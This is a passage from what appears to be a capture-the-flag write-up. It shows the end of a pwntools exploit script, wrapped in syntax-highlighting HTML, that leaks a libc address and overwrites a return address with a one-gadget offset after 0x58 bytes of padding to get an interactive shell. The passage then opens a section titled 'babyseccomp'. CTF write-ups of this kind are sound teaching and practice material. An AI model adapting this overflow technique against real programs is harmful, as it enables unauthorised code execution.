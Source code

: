 <span style="color:#a71d5d">=</span>u64(r.recvuntil(<span style="color:#63a35c">'\x7f'</span>).replace(<span style="color:#63a35c">'\x20'</span>,<span style="color:#63a35c">''</span>).ljust(<span style="color:#0099cc">8</span>,<span style="color:#63a35c">'\x00'</span>))<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">0x83cc0</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(hex(leak))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x58</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(leak<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">0x106ef8</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla(<span style="color:#63a35c">'--&gt;'</span>,payload)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.interactive()</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#e5e5e5text-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>


## 2. babyseccomp

![image-20191231000632183](https://github.com/aht7525/aht7525.github.io/blob/master/img/image-20191231000632183.png?raw=true)
